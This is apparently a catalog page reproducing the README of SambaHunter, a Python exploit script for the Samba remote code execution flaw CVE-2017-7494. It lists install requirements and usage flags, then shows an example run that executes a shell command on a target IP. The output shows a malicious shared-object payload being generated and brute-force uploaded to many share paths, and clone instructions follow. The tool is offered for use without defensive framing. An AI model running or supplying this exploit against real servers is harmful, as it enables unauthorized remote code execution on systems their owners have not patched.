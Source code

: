 # SambaHunter

It is a simple script to exploit RCE for Samba (CVE-2017-7494 ).

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/brianwrf](https://github.com/brianwrf) |
| Url      | [https://github.com/brianwrf/SambaHunter](https://github.com/brianwrf/SambaHunter)                                               |
| Stars    | 54                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# SambaHunter
It is a simple script to exploit RCE for Samba (CVE-2017-7494).

Now works with Python3. Many of the required Python2 libraries are deprecated (e.g. `commands`)

Added logging to show which shares are writeable. If 'Exploit Finished' appears but no shares are writeable, the exploit didn't work.

# Requirements
* sudo apt-get install smbclient
* pip install pysmbclient

# Usage
```
# python3 sambahunter.py -h


  ____                  _           _   _             _            
 / ___|  __ _ _ __ ___ | |__   __ _| | | |_   _ _ __ | |_ ___ _ __ 
 \___ \ / _` | '_ ` _ \| '_ \ / _` | |_| | | | | '_ \| __/ _ \ '__|
  ___) | (_| | | | | | | |_) | (_| |  _  | |_| | | | | ||  __/ |   
 |____/ \__,_|_| |_| |_|_.__/ \__,_|_| |_|\__,_|_| |_|\__\___|_|   
                                                                   
    # Exploit Author: avfisher (https://github.com/brianwrf)
    # Samba 3.5.0 - 4.5.4/4.5.10/4.4.14 Remote Code Execution
    # CVE-2017-7494
    # Help: python sambahunter.py -h

usage: sambahunter.py [-h] [-s SERVER] [-c COMMAND]

optional arguments:
  -h, --help            show this help message and exit
  -s SERVER, --server SERVER
                        Server to target
  -c COMMAND, --command COMMAND
                        Command to execute on target server
 ```
 
 # Example
 ```
 # python3 sambahunter.py -s 192.168.1.106 -c 'uname -a > /tmp/u.txt'


  ____                  _           _   _             _            
 / ___|  __ _ _ __ ___ | |__   __ _| | | |_   _ _ __ | |_ ___ _ __ 
 \___ \ / _` | '_ ` _ \| '_ \ / _` | |_| | | | | '_ \| __/ _ \ '__|
  ___) | (_| | | | | | | |_) | (_| |  _  | |_| | | | | ||  __/ |   
 |____/ \__,_|_| |_| |_|_.__/ \__,_|_| |_|\__,_|_| |_|\__\___|_|   
                                                                   
    # Exploit Author: avfisher (https://github.com/brianwrf)
    # Samba 3.5.0 - 4.5.4/4.5.10/4.4.14 Remote Code Execution
    # CVE-2017-7494
    # Help: python sambahunter.py -h

[*] Exploiting RCE for Samba (CVE-2017-7494 )...
[*] Server: 192.168.1.106
[*] Samba version: Samba 4.3.8-Ubuntu
[*] Generate payload succeed: /root/samba_14506.so
[+] Brute force exploit: /volume1/samba_14506.so
[+] Brute force exploit: /volume2/samba_14506.so
[+] Brute force exploit: /volume3/samba_14506.so
[+] Brute force exploit: /shared/samba_14506.so
[+] Brute force exploit: /mnt/samba_14506.so
[+] Brute force exploit: /mnt/usb/samba_14506.so
[+] Brute force exploit: /media/samba_14506.so
[+] Brute force exploit: /mnt/media/samba_14506.so
[+] Brute force exploit: /var/samba/samba_14506.so
[+] Brute force exploit: /tmp/samba_14506.so
[+] Brute force exploit: /home/samba_14506.so
[+] Brute force exploit: /home/shared/samba_14506.so
[*] Exploit finished!
 ```
![](https://raw.githubusercontent.com/brianwrf/SambaHunter/master/example.jpeg)



## Get the content

```
git clone https://github.com/brianwrf/SambaHunter
cd SambaHunter
```

{% embed url="https://github.com/brianwrf/SambaHunter" %}

<figure><img src="https://avatars.githubusercontent.com/u/8141813?v=4" alt=""><figcaption><p>brianwrf</p></figcaption></figure>

